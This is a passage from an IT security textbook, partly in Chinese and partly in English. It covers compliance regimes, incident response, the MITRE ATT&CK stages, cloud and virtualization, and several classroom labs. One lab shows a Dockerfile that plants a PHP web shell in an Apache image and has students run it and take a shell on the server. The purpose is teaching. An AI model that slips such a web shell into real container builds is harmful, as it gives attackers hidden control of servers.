还需要评估资产或数据对攻击者的价值。是否有可以出售的敏感数据？泄露的数据是否会危及公司的长期目标？数据是否可用于导致宕机？

还应评估漏洞的法律后果。如果该漏洞被利用，是否会面临罚款或诉讼？

最后，还应评估声誉后果。如果该威胁成为现实，是否会导致客户流失？安全漏洞是否会削弱人们对我们的信任？

## 8.2. 合规

商业和法律标准已制定，以确保信息安全 CIA 三要素的所有部分都得到保护。采取措施遵循这些标准称为 *合规*。本节将概述许多重要政策以及企业遵循的详细信息。

### 8.2.1. 合规工具

为了确定系统是否符合合规要求，会执行合规审计。这些审计可能是自动化的，可能只是定期扫描机器的终端软件。也可能是复杂的，例如让外部团队对特定站点进行渗透测试。无论哪种情况，合规审计都在寻找违反安全策略的情况。

*风险评估* 是合规的重要组成部分，用于确定发现的违规行为可能造成多大损害。风险分析报告通常作为合规审计的第二步生成。这些报告帮助公司做出明智的决定，决定应采取哪些行动。

最后，*变更控制* 用于确保需要发生的变更得到实施，并追踪导致违反安全策略的变更。通过跟踪系统变更的方式和原因并要求审批，系统可以从不安全状态转变为安全状态，并希望保持这种状态。变更控制应贯穿于网络安全工作的所有方面。

### 8.2.2. PII/PCI


个人身份信息（PII）和支付卡行业（PCI）合规性可能是合规领域中最大的一个部分。PII 可能包括社会安全号码（SSNs）、名和姓、生日、地址、母亲的婚前姓氏等。与 PCI 相关的数据包括持卡人姓名、账户号码、卡片到期日期、安全码、磁条/芯片数据、PIN 码或卡号。

此处详细介绍的大多数协议旨在保护这些数据。

### 8.2.3. PCI DSS

PCI DSS 代表支付卡行业数据安全标准。它由主要信用卡公司强制要求，并由支付卡行业安全标准委员会（PCI SSC）维护。

DSS 超过 100 页，是保护 PCI 数据的基本规则。它们详细说明了网络安全、漏洞管理、监控/测试要求以及其他信息安全政策。

这些标准基于等级，而等级又基于企业处理的信用卡交易数量。对业务量较大的公司（较低等级）适用更严格的标准。等级如下所示：

*   Level 1 - 每年超过六百万笔交易
*   Level 2 - 每年一百万至六百万笔交易
*   Level 3 - 每年两万至一百万笔交易
*   Level 4 - 每年少于两万笔交易

### 8.2.4. PHI/HIPPA

受保护的健康信息（PHI）是另一种受各种法律和行业标准保护的数据类型。PHI 可能包括病史、医疗机构入院信息、处方信息或健康保险数据。

《健康保险可携性和责任法案》（HIPAA）为 PHI 的处理提供了标准。根据 HIPAA，PHI 只能披露给特定方，用户有权查看和更正 PHI，且 PHI 必须安全存储和传输。

如果你曾好奇为什么你的医疗保健提供商总是让你通过安全门户访问，而不是直接将就诊详情通过电子邮件发送给你，那是因为他们在处理 PHI，而电子邮件不被认为是安全的。

### 8.2.5. SOX/GLBA

《萨班斯-奥克斯利法案》（SOX）是在互联网泡沫破裂后通过的，旨在帮助打击金融欺诈。SOX 详细说明了一些基本的 CIA 措施（大多数法规也是如此）：

机密性：加密、数据丢失防护

完整性：访问控制、日志记录

可用性：数据保留、审计、违规事件公开披露

有趣的是，这些控制措施也使得公司更难对其业务行为撒谎。通过保留 90 天的记录、跟踪更改并要求公开披露，SOX 使得公司更难实施欺诈。

《格拉姆-里奇-布莱利法案》（GLBA）是另一项旨在保护 CIA 并为客户提供更多信息的法案。GLBA 规定金融机构必须说明他们如何使用客户信息，为客户提供退出权利，并确保其合作的供应商符合合规要求。

### 8.2.6. GDPR


[Convert GDPR](https://www.Convert.com/GDPR) 是根据 [CC BY 2.0](https://creativecommons.org/licenses/by/2.0/) 使用的

《通用数据保护条例》（GDPR）是一项针对性较弱但影响范围更广的欧盟法律，要求在客户被追踪时通知客户。对大多数人来说，GDPR 的最大影响是他们必须同意网站使用 Cookie。请记住，Cookie 几乎专用于会话管理，因此它们会追踪访问网站的访客。

GDPR 概述了风险评估、加密、化名使用、文档和审计的规则。GDPR 还赋予访客让网站忘记其客户数据的选项。希望在欧洲市场运营的企业（即大多数全球性企业）必须使其符合 GDPR 要求。

### 8.2.7. US Patriot Act/PRISM

并非所有要求合规的法规都关注保护信息。有些法规专门用于削弱机密性，以便政府实体进行间谍活动。

《美国爱国者法案》是在 9/11 袭击后通过的，除了许多其他内容外，它还要求电信运营商遵守客户信息请求。这些可能包括电话通话记录、网络流量样本或位置信息。

后来在 2007 年，《保护美国法案》（PAA）扩大了这种监控，要求更多公司遵守信息请求。该法案开启了 PRISM 计划，该计划由爱德华·斯诺登泄露事件揭露，迫使公司遵守全球互联网监控计划。

## 8.3. Lab: Scanning with Nessus

在此实验中，我们将下载 Nessus 漏洞扫描器并使用它扫描一台机器。[点击此处注册激活码并获取下载 Nessus Essentials 的链接。](https://www.tenable.com/products/nessus/nessus-essentials) 一旦你为操作系统安装了最新版本的 Nessus 并完成注册，即可进入下一步。

在 Windows 设备上运行 `ipconfig` 或在 Mac 上运行 `ifconfig` 以查找你的 WiFi 适配器 IP 地址。与朋友交换 IP 地址（你们将互相扫描），并将朋友的 IP 放入 `Welcome to Nessus Essentials` 对话框中。当你点击 `Next` 时，Nessus 将开始主机发现步骤，确保你输入的 IP 地址确实对应一个活动主机。当主机出现在 `Host Discovery` 中时，点击主机旁边的复选框并运行扫描。你会注意到在扫描进行时状态为 `Running`。

## 8.4. Review Questions

安全团队在评估可能漏洞时需要收集哪些信息？

:

CVE 数据库的目的是什么，它如何帮助安全团队？

:

给出三个 PII 的示例。

:

# 9. Incident Response and Continuity

即使有最强大的安全控制措施，事件仍然会发生。准备好响应并尽快恢复运行非常重要。这个过程称为事件响应和连续性。

## 9.1. Security Organizations

我们已经了解了许多这些安全组织，但在此将更深入地讨论它们。这些组织创建安全专家用于响应事件的分析框架和漏洞列表。

### 9.1.1. MITRE


[The MITRE Corporation, Public domain, via Wikimedia Commons](https://commons.wikimedia.org/wiki/File:Mitre_Corporation_logo.svg)

在 20 世纪 40 年代和 50 年代，MIT 科学家开发了大规模计算实验室。1958 年，MITRE 作为一家私营公司由这些实验室的人员和设备组建而成。目前，MITRE 是一个联邦资助的研究和开发中心。

如前所述，MITRE 维护 CVE 数据库。MITRE 还开发了用于分析事件的 ATT&CK 框架。我们将在本章末尾介绍该框架的每个步骤。

### 9.1.2. NIST

NIST 代表美国国家标准与技术研究院。它由美国商务部联邦支持，并将自己定位为促进美国创新的研究院。NIST 在技术领域制定标准、指南和最佳实践。

NIST 还开发了一个名为 NIST 框架的安全框架。它概述了安全团队的一般职责：

*   Identify
*   Protect
*   Detect
*   Respond
*   Recover

### 9.1.3. OWASP


The Open Web Application Security Project (OWASP) is an international non-profit organization focused on web application security. They have an active online community with tools, forums, videos, and news posts. Their most popular resource is the [OWASP Top 10](https://owasp.org/Top10), an annual listing of the most popular web application vulnerabilities.

## 9.2. SOC

A security operations center (SOC) is a dedicated team of security experts working within the business they are protecting. Incident response and recovery is the job of the SOC. SOCs also set up preventative infrastructure, monitor the environment, respond to possible threats, manage logs, and maintain compliance.

An important concept in the SOC is the idea of a `baseline`. A popular company may be attacked hundreds of times over the course of a day. It is important that the SOC knows what the average volume of attack is so they can maintain resources to respond. Through monitoring an SOC can establish a baseline of what is normal in the environment.

## 9.3. Incidents

Incidents are part of working at an SOC, they will occur. The best SOCs may spot them before they’re an issue (or an incident even) and have practice how to respond and recovery. The goal is to maintain continuity of services provided even if an incident occurs.

### 9.3.1. Precursors

Typically before an incident takes place, there are warning signs or precursors telling you that an incident is going to occur. Precursors may be obvious like threats from APTs, criminal organizations, or Hacktivist. They can also be subtle, such as patterns of recon in web server logs or evidence of transient port scans. Finally a precursor may be the discovery of a new exploit which leads to an uptick in malicious actor activity for everyone. In all cases, it’s important to keep an eye out for precursors. If an incident is caught in this phase it is much easier to handle.

### 9.3.2. Indicators

The next level up from a precursor is an indicator. An indicator is an alert showing that an incident has been detected. These may be raised by the IDS/IPS, endpoint management system, malware scanners, network devices, or even a user report.

Once and indicator alarm has been triggered, an SOC member must respond and investigate. In the best case scenario the indicator is telling you that an incident has been detected before too much damage has been done.

## 9.4. Response

In the response phase, the SOC deals with an incident to mitigate the harm it causes. Every incident is different, but the governing principles and steps are the same.

### 9.4.1. Business Continuity

The concept of continuity is central to the steps taken to respond to an incident. Remember that the goal is to keep things running and keep services available. Business Continuity has three main parts: Business Continuity Planning (BCP), Business Impact Analysis (BIA), and Disaster Recovery Planning (DRP).

Business Continuity Planning (BCP) is a methodology for keeping things running. With BCP threats are identified in advance and critical business processes are prioritized. Recovery procedures for these processes have been developed and tested. In response to an incident, these procedures are followed as practiced.

Business Impact Analysis (BIA) identifies business functions and rates the impact of an outage on these functions. BIA measures the impact of an outage on:

*   Property (tangible assets)

*   Finance (monetary funding)

*   Safety (physical protection)

*   Reputation (status)

*   Life (well being)

*   Customers

BIA can help pinpoint mission-essential functions and single points of failure. This allows SOCs to determine where there resources should go in terms of having the best chance of maintaining business continuity.

Finally having a Disaster Recovery Plan (DRP) makes it easier to recover in the case of a large-scale issue. Disaster Recovery (DR) entails policies, tools, and procedures to recover from an outage. DRPs will detail order of restoration and require a lot of testing to ensure that the entire suite of supported applications can be brought back up. A standard DRP will detail:

*   Purpose and Scope

*   Recovery Team

*   Preparing for a Disaster

*   Emergency Procedures or Incident Response During an Incident

*   Restoration Procedures and Return to Normal

### 9.4.2. Redundancy

Redundant services can help with continuity by making sure there is always an uncompromised service available. The key concepts of redundancy are detailed within the language it uses:

Redundancy 

: extra components/services that run in case of failures 

Failover 

: the process of turning over to a secondary device 

High availability (HA) 

: ensures high level of operation performance 

Fault tolerance 

: allows a system to continue in the event of a failure 

Single Point of Failure (SPOF) 

: a single failure that can cause an outage 

#### Hot, Cold, & Warm

One typical way to implement redundancy is through the use of hot, cold, and warm sites.

A hot site is a secondary location that is live and replicating in real-time what is happening in production. In the case of the primary site going down, a hot site can failover immediately.

A cold site is a secondary location without equipment. A cold site will take some time to set up and configure in the case of an outage.

A warm site is a secondary location with all equipment and connectivity. The equipment will still need to be turned on and made production ready, but it will not take as long to failover to a warm site as a cold one.

#### RAID

RAID is an interesting case of redundancy that occurs at the server storage level. RAID stands for Redundant Array of Inexpensive/Independent Disks and as the name states it uses multiple disks to make reads/writes faster `and` to be able to recover if one of the disks fails. It is important to note that RAID is not a backup. Backups are meant to aid in recovery and can be co-located. A RAID array is mean to work on a single machine and help mitigate damages cause by disk failures.

RAID has multiple levels, each of which prioritizes a different aspect:

*   RAID 0: Data is stripped across multiple disks to make reads/writes faster. If a single disk is lost `the whole array goes down`.

*   RAID 1: Data is mirrored across multiple disks for redundancy. If a single disk is lost the array can be recovered from the other disks.

*   RAID 5: At least three disks are used in a stripped and mirrored fashion such that read/write speeds are increased `and` if a `single` disk goes down the array can be rebuilt.

*   RAID 10: A combination of RAID0 and RAID1.

### 9.4.3. Isolation and Containment

The first step in reaction to an incident is to remove the asset from the network so that the damage does not spread. It is standard procedure for malware to attempt to spread to other machines and the fastest way for it to do that is through an internal network. By isolating the infected asset, we can help prevent this.

There are a few other tools for containing malware such as sandboxing and snapshots. Sandboxing refers to the practice of running processes in a controlled environment on a machine. Most web browsers sandbox the JavaScript they run, meaning that if a website is serving malicious JS it should not be able to affect anything else on the machine. Snapshots refer to periodically saving the state of the storage device on a machine. This allows the SOC to roll the machine back to a previous state, before malware was active.

### 9.4.4. Recovery

Recovery can be a long process, but it is the core of responding to an incident. If it is possible to remove malware from a machine, that action is taken in this step. Breached accounts are also disabled.


不幸的是，某些资产可能无法回滚到先前未受损的状态，在这种情况下，可能需要从备份中恢复，或者如果备份也不可用，则需要从头重建。备份使恢复变得简单得多，而没有备份计划的公司通常会在第一次事件发生后才实施备份。话虽如此，如果恶意软件在系统上有足够的时间，它也可能已经进入了备份。在这种情况下，资产通常会被销毁，并构建一个新的资产。虽然这可能需要很长时间，但这是确定资产未受损的少数方法之一。

### 9.4.5. 补救

补救的重点是确保事件不会再次发生。补救可能涉及补丁、防火墙更改、IoC 数据库更新，甚至增加更多安全层。目标是确保所有资产都安全。

### 9.4.6. 报告

报告是一个关键步骤。收集带时间戳的日志以及事件计划实施情况的记录非常重要。这可以帮助你确定是否应该更改计划，并帮助你了解未来应该关注什么。在最佳情况下，良好的报告可以让你在未来的前兆变成事件之前发现它们。

披露也是报告阶段的一个重要方面。合规性和基本伦理都要求让客户了解任何数据丢失。通过披露事件的详细信息，你还可以让其他公司了解“在野外”正在发生哪些类型的攻击。

## 9.5. MITRE ATT&CK 框架

在 恶意软件 章节中，我们介绍了洛克希德·马丁公司的网络杀伤链攻击分析框架。网络杀伤链不是唯一可用的分析框架，一个流行的替代方案是 [MITRE ATT&CK 框架](https://attack.mitre.org)。ATT&CK 有 14 个部分，涵盖对抗策略、技术和常识。每个部分都分为不同的矩阵，每个矩阵都有自己的子技术。

ATT&CK 框架开发于 2013 年，是一种现代的事件分析方式，可以帮助推动关于响应和业务连续性的决策。

### 9.5.1. 侦察

侦察是收集目标信息的行为。这通常涉及漏洞扫描、网络映射和网络钓鱼。攻击者通常在寻找薄弱环节和进入公司的途径。了解侦察是如何进行的，可以帮助安全团队发现事件的前兆。

### 9.5.2. 资源开发

资源开发涉及获取用于部署攻击的基础设施。这可能涉及冒充或根据先前侦察的结果定制漏洞利用。在资源开发阶段，为攻击做准备所需的所有操作都会执行。

### 9.5.3. 初始访问

初始访问是指第一次安全漏洞。这种情况可能以多种方式发生，但一些常见的方式包括网络钓鱼、有人点击电子邮件中的链接，或通过受损的账户。攻击者可能会发现更容易利用公司使用的底层软件，就像供应链攻击的情况一样。甚至有攻击者在公共区域留下恶意闪存驱动器，或从附近的汽车中攻击 WiFi 网络的实例。

无论以何种方式进行，初始访问都是攻击中的第一次真正的妥协。

### 9.5.4. 执行

执行涉及运行执行攻击其余部分所需的命令或脚本。其中大部分可能通过 `PowerShell` 或 `BASH` 脚本自动化。这些脚本将利用漏洞、设置运行任务、下载和安装软件，甚至可能为攻击者提供内部定向网络钓鱼的立足点。

### 9.5.5. 持久化

持久化是设置系统或系统以继续运行已植入的恶意软件的行为。这可能涉及脚本的自动启动执行、Linux 系统上的 init 脚本、创建新账户、安排任务运行，甚至将代码植入或替换另一个可执行文件或启用宏的文档中。通过持久化，攻击者可以确保即使机器重新启动或未完全擦除，恶意代码也会再次运行。

### 9.5.6. 权限提升

一旦攻击者在内部网络上立足，他们通常会努力提升权限。这可能通过本地方式、通过漏洞利用、诱使用户提升正在运行的脚本的权限、在传输过程中窃取凭据，或利用正在运行的系统进程来完成。

此阶段的关键在于，机器的安全性已被突破，但如果攻击者在机器上没有管理员账户，实际造成的损害可能并不严重。通过将权限提升到管理员，攻击者可以完全控制资产。

### 9.5.7. 防御规避

需要注意的是，在发生此过程时，恶意软件扫描器、端点管理软件，甚至可能是 SOC 的成员都会积极努力检测和删除恶意软件。攻击者通常会采取自动化的步骤，使其难以被检测到。这可能涉及禁用恶意软件扫描器、清除日志、在容器中部署、在已运行的进程中运行，以及其他混淆方法。防御规避使安全团队的工作变得更加困难。

### 9.5.8. 凭据访问

在至少一台机器上运行恶意软件后，攻击者可能会尝试窃取凭据。这可能涉及记录按键、在本地网络上进行中间人攻击、暴力破解程序、破解本地存储的哈希值，或利用密码管理器。凭据使攻击者能够登录网络上的其他机器并扩展其资产。

### 9.5.9. 发现

恶意行为者会尽可能多地收集其运行环境的信息。了解可用账户、网络流量类型、运行的服务、存储的密码和安全对策，有助于他们就下一步做出明智的决策。内部政策也可能有帮助，当你知道公司密码策略时，猜测密码要容易得多。预计在初始访问后的某个时间点，攻击者会尝试获取更多信息。

### 9.5.10. 横向移动

横向移动是指在内部系统之间移动，而权限没有重大变化。这可能指使用受损的用户账户来妥协其他用户账户。攻击者能够访问的账户越多，他们就能越有效地了解环境。拥有多个账户的访问权限也为攻击者提供了更多持久化、凭据访问和内部定向网络钓鱼的选择。

### 9.5.11. 收集

数据可以从工作站键盘、笔记本电脑摄像头和麦克风中收集。本地系统数据、共享驱动器数据和可移动介质数据也都可以被收集。电子邮件可以被扫描和存储，在某些情况下，屏幕录制也可能被使用。与发现阶段类似，攻击者通常会尽可能多地收集数据。

### 9.5.12. 命令和控制

命令和控制 (`C2` 或 `C&C`) 是指在受损的内部系统和外部系统之间建立通道的过程。此通道可用于从受损机器获取数据和/或向机器投放恶意软件。`C2` 通道允许操作员与受损机器交互，并自动化大部分工作。


C2 协议可能会试图搭便车于常规网络流量，或利用难以追踪的服务。你会在 Web 协议、DNS 查询、邮件协议，甚至是 Discord 等聊天协议上看到加密的 C2 流量。ICMP 和 UDP 等低层协议也可用于规避检测。C2 系统可能会使用多个通道，或为上传/下载使用不同的通道。其最终目标是让流量难以被检测、追踪和阻止。

### 9.5.13. Exfiltration

对攻击者来说，将数据从机器中取出可能很困难，因为大规模传输可能会触发警报。可能会利用已使用的 Web 服务（如 Google Drive、Dropbox 等）让数据外泄看起来像常规流量。在发生物理入侵的情况下，可能会使用 USB 驱动器。最后，如果攻击者与设备距离较近，也可能使用蓝牙、蜂窝网络或本地 WiFi 等无线电协议。

### 9.5.14. Impact

攻击的影响也需要分析。影响可能包括失去对资产的访问权限、数据丢失、数据被勒索、篡改、拒绝服务或资源劫持。所有这些都可能中断业务连续性，并最终给公司带来经济损失。必须充分了解攻击的影响，以便为未来做出安全决策。

## 9.6. Review Questions

什么是 SOC，它做什么？ 

:  

什么是 SPOF？给出一个示例 

:  

ATT&CK 框架与 Cyber Killchain 框架有何不同？你可能需要参考 恶意软件 章节。 

:  

## 9.7. Lab: 报告 2014 年索尼影业黑客事件

花点时间阅读 [2014 年索尼影业黑客事件](https://en.wikipedia.org/wiki/Sony_Pictures_hack) 的详细信息。你也可以自由研究其他来源。想象你负责在攻击发生后不久向受影响方披露攻击细节。

# 10\. 虚拟化

信息技术在采用虚拟化作为动态且强大系统基础方面取得了巨大增长。从裸机资源转向虚拟资源，这一转变带来了其自身独特的安全挑战和考量。随着领域的变化，任何从事网络安全工作的人不仅要了解这些系统的工作原理，还要能够以安全优先的思维来处理其实施。

## 10.1. 方法

虚拟化是指使用虚拟计算资源，而不是直接使用实际资源。例如，你可以在计算机的虚拟版本上运行程序，模拟处理器、内存等，而不是直接在实际硬件上运行程序。这样做有一些优势，即你可以限制程序使用的资源，或在隔离环境中运行多个程序，而无需对程序本身进行重大更改。虚拟计算通常有几种实现方式：

### 10.1.1. 虚拟机


虚拟机是一种使用软件 *假装* 是整台物理计算机的资源。虚拟机模拟硬件，在其上安装 *客户* 操作系统。运行虚拟机的机器的操作系统被称为 *主机* 操作系统。

虚拟机在运行方式上提供了很大的灵活性。机器可以暂停、重新启动，甚至可以存储其当前状态的快照。有些虚拟机甚至不需要提升的权限即可运行，这意味着你可以在非特权环境中模拟特权环境。这使它们成为沙箱化不可信程序的绝佳选择。

不幸的是，虚拟机非常耗费资源，因为它们需要虚拟化整个操作系统。这种资源使用问题以及虚拟化日益普及，促使了更轻量级解决方案（如容器）的出现。

### 10.1.2. 容器

容器通过使用与主机相同的操作系统内核来简化虚拟机。这是通过使用 Linux 内核的特殊功能来隔离容器来实现的。[Linux 命名空间](https://man7.org/linux/man-pages/man7/namespaces.7.html) 由 [cgroups](https://man7.org/linux/man-pages/man7/cgroups.7.html) 控制，允许守护进程（Docker、podman 等）创建一个环境，其中应用程序对完整系统的访问权限有限。通常，容器用于运行单个应用程序，仿佛它在实际主机上独立运行一样。这使得部署某些应用程序所需的独特环境变得更加容易。

明显的安全问题在于隔离。如果容器可以访问另一个容器的资源会发生什么？考虑到竞争公司的容器可能在云中的同一台机器上并排运行，恶意容器访问或干扰另一个容器的风险是什么？

### 10.1.3. 容器编排系统

容器还使重启或扩展应用程序变得更加容易。容器编排系统通过监控容器并根据需要启动或停止它们来利用这一点。最流行的容器编排系统是 [Kubernetes](https://kubernetes.io/)，由 Google 开发用于管理 Web 应用程序。

鉴于编排系统根据需要从镜像创建容器，一个明显的关注点是这些镜像的完整性。如果镜像仓库被攻破，编排系统仍会部署存储在那里的镜像，通常会使问题更加严重。容器从日志记录的角度来看也可能难以管理，这可能导致合规性问题。过去，公司可能监控单个服务器的日志，而现在他们必须监控服务器上数百个容器的日志。

### 10.1.4. IaaS

IaaS 代表基础设施即服务，是指从提供商处购买虚拟机或容器资源。一些流行的 IaaS 公司包括 Amazon Web Systems、Microsoft Azure 和 Linode。每个公司都有一些基本的安全工具和默认策略来帮助保护购买的资源，但最终，确保资源安全的大部分安全责任在于购买资源的团队。

### 10.1.5. PaaS

PaaS 代表平台即服务，是指一种更高级别的服务，它在已建立的环境中部署应用程序，该环境运行在 IaaS 服务上。Heroku 是这种服务的一个绝佳示例。

Heroku 支持许多不同的应用程序，但它们的工作方式大致相同：想象有一个需要部署的 Django Web 应用程序的 Git 仓库。Heroku 将获取运行在 AWS 上的 Amazon EC2 实例，克隆仓库，安装带有所需依赖项的 Python 虚拟环境，并在系统上安装生产 Django Web 服务器。

虽然用户可以自己执行这些步骤，但 PaaS 使部署应用程序变得更加容易。

### 10.1.6. SaaS

软件即服务 (SaaS) 是一种我们非常熟悉的方法。SaaS 将 Web 应用程序作为订阅服务提供。一些示例包括 Webex、Dropbox、Google Workspace 等。SaaS 是一种流行的软件变现方式。

SaaS 的一个安全问题是它将信息集中到单个提供商处。如果运行软件的服务器被攻破，数百万人的个人身份信息 (PII) 可能会泄露。

## 10.2. 云计算

IaaS 开启了从本地部署软件转向 *在云中* 或在 IaaS 资源上部署的转变。信息技术已经看到了向云端的转变，又转回本地，中间有各种混合选项。企业可以根据自身需求选择任何这些模型。

### 10.2.1. 公有云


Public cloud infrastructure consists of providers like AWS who host huge data centers throughout the world and welcome anyone who can afford it to use their resources. Public cloud providers claim to be secure and may even allow for audits (typically through a third party) to meet compliance requests. Ultimately the security of the underlying public cloud infrastructure lies in the hands of the provider, something that not all companies are comfortable with.

### 10.2.2. Private

Private cloud takes the virtualization and automation technologies used by public cloud providers and hosts them internally. By utilizing technologies like [OpenStack](https://www.redhat.com/en/topics/openstack) a company can take full control of their deployment and run their own cloud. This has some disadvantages for companies that may lack the servers, space, and utilities, but for companies that were already self-hosted, migrated to the public cloud, and now would like more control, private cloud is an excellent choice.

### 10.2.3. Hybrid

Hybrid cloud uses both models, public and private, and hosts some things on public IaaS services and other on internal, private IaaS services. This can be the best of both worlds, assuming the applications being supported leverage the full advantages of their environment.

### 10.2.4. Multi-Cloud

Multi-cloud typically refers to utilizing more than one cloud provider. This may be required for applications that wish to remain available even if their cloud provider fails. Multi-cloud also avoids the issue of vendor lock-in, where the application is only set up to run on one provider.

From a security standpoint, multi-cloud likely increases the attack surface of an application. You now have to be concerned with the vulnerabilities of two providers instead of just one. This must be weighed against the benefits of redundancy when deciding whether or not to utilize more than one cloud provider.

## 10.3. Serverless Solutions

One interesting outcome of the move to virtualized technologies is the advent of `serverless` solutions. A cloud user might not want to have to admin an entire Linux server, or even a Linux container just to run their application. They may be willing to design the application to work directly within a system that the cloud provider creates.

[Amazon Lambda](https://aws.amazon.com/lambda/) is an example of such a system. Users create functions which run seemingly on their own, without worrying about the underlying systems supporting them. From a security standpoint, this places a lot of trust in the provider.

## 10.4. 4C’s of Cloud Native Security

When reflecting on how to secure an application running in the cloud, a common tactic is to look at the four Cs involved:

Code 

: How secure is the code of the application? Is it configured correctly? Is it subject to buffer overflows or other issues? If the code isn’t secure, the application never will be 

Container 

: How secure is the container itself? Are there limits to what the container has access to? Does the Linux distribution on the container have known vulnerabilities? Is the code running as a privileged user on the container? 

Cluster 

: The container orchestration system is going to run on a cluster, how secure is this cluster? Has the container orchestration system been configured correctly? Is the virtual network being used secure? Are its ingress and egress points mapped and monitored? 

Cloud 

: Is the cloud provider you are using secure? If they have are compromised everything within them is compromised. Can you trust this computing base? 

## 10.5. Lab: Malicious Containers

While containers have made it much easier to deploy software, they have also made it easier to deploy `malicious` software. Imagine that we have an internal company website, written in PHP and deployed in a Docker container. Given the layered nature of the Docker build system, this application is `trusting` that the images it is building from are secure. Take a look at the following `Dockerfile` to see just how easy it is to slip something malicious into the image:

```
FROM php:apache
COPY shell.php /var/www/html/shell.php
COPY index.php /var/www/html/index.php
```

`shell.php` is a shell written in PHP that will execute with the permissions of the web server. This means it will be able to read and write (but not overwrite) in the `/var/www/html` directory.

Let’s download, build, and run this image. Download [the malicious.zip file](https://github.com/rxt1077/it230/raw/main/labs/malicious.zip), unzip it in a directory where you have write access, and navigate to that directory in your shell.


# 10.6. 复习题

为什么公司可能选择将应用程序部署在公有云上？这会带来哪些新的安全考虑？ 

:

哪种类型的服务需要对提供商有更多的信任，IaaS 还是 PaaS？为什么？ 

:

云原生安全的 4C 如何体现 *分层安全* 的原则？这些层之间有重叠吗？ 

:

* * *

1.  ^(1) Talking Heads. (1977). Psycho killer \[song\]. On Talking Heads:77. Sire Records.↩

2.  ^(2) 实际上，代码空间非常小，以至于你甚至可以轻松创建一个设备在不到一分钟内遍历所有可能的代码。↩

3.  ^(3) 这个算法很差，甚至可以说很难称其为哈希算法。话虽如此，它被用作解释哈希是什么的工具。↩

4.  ^(4) 2020 年第一季度按操作系统划分的恶意软件检测分布。Joseph Johnson。2022 年 4 月 11 日。↩

5.  ^(5) 关于如何更改但仍遵循协议的一个有趣示例，请查看 [`SYN cookies`](https://en.wikipedia.org/wiki/SYN_cookies)。↩

6.  ^(6) Khalaf, Emad. (2017). A Survey of Access Control and Data Encryption for Database Security. journal of King Abdulaziz University Engineering Sciences. 28. 19-30. 10.4197/Eng.28-1.2. Reproduced under license: CC BY-NC 4.0↩

| |
| --- |

---

# Docker 镜像构建与运行示例

进入 `C:\Users\rxt1077\it230\labs\malicious` 目录，执行以下命令构建镜像：

```
PS C:\Users\rxt1077\it230\labs\malicious> docker build -t malicious . ①
[+] Building 32.4s (8/8) FINISHED
 => [internal] load build definition from Dockerfile                                                                                                                                                        0.0s
 => => transferring dockerfile: 134B                                                                                                                                                                        0.0s
 => [internal] load .dockerignore                                                                                                                                                                           0.0s
 => => transferring context: 2B                                                                                                                                                                             0.0s
 => [internal] load metadata for docker.io/library/php:apache                                                                                                                                              32.2s
 => [1/3] FROM docker.io/library/php:apache@sha256:f1c5dba2a2981f91ec31b9596d4165acd0b46e58382e47622487e130a21e420d                                                                                         0.0s
 => [internal] load build context                                                                                                                                                                           0.0s
 => => transferring context: 61B                                                                                                                                                                            0.0s
 => CACHED [2/3] COPY shell.php /var/www/html/shell.php                                                                                                                                                     0.0s
 => CACHED [3/3] COPY index.php /var/www/html/index.php                                                                                                                                                     0.0s
 => exporting to image                                                                                                                                                                                      0.1s
 => => exporting layers                                                                                                                                                                                     0.0s
 => => writing image sha256:e1dc75a91b2e269091069b1e3406a496b4bbfd95b066f970062ea8b3a74d8368                                                                                                                0.0s
 => => naming to docker.io/library/malicious                                                                                                                                                                0.0s
```

1.  ① 构建镜像并将其标记为 `malicious`，不要忘记末尾的 `.`！

然后运行容器并映射端口：

```
PS C:\Users\rxt1077\it230\labs\malicious> docker run -p 8080:80 malicious ②
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Wed Jul 13 02:25:57.082000 2022] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.54 (Debian) PHP/8.1.8 configured -- resuming normal operations
[Wed Jul 13 02:25:57.082089 2022] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
```

2.  ② 运行 `malicious` 镜像并将本地端口 8080 转发到容器中的端口 80

现在你应该能够访问 [`http://localhost:8080`](http://localhost:8080) 查看默认网页。

根据 Dockerfile 中的信息，在被攻破的 Web 服务器上获取 shell。

